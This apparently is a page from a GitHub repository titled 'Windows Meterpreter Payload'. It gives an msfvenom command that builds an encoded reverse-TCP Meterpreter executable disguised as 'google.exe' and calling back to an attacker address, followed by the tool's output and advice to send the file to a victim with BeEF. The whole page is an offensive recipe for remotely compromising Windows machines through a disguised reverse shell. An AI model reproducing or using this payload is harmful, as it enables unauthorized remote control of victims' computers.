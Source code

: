 <pre>
<h1> Windows Meterpreter Payload</h1>
>> Send this payload to your victim using beef for better result.
  
<b style="color: red;">
┌──(root㉿kali)-[/home/kali]
└─# msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5 lhost=192.168.0.109 lport=4444 -f exe > google.exe </b> <i>
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 5 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai succeeded with size 408 (iteration=1)
x86/shikata_ga_nai succeeded with size 435 (iteration=2)
x86/shikata_ga_nai succeeded with size 462 (iteration=3)
x86/shikata_ga_nai succeeded with size 489 (iteration=4)
x86/shikata_ga_nai chosen with final size 489
Payload size: 489 bytes
Final size of exe file: 73802 bytes
</i>



















</pre>
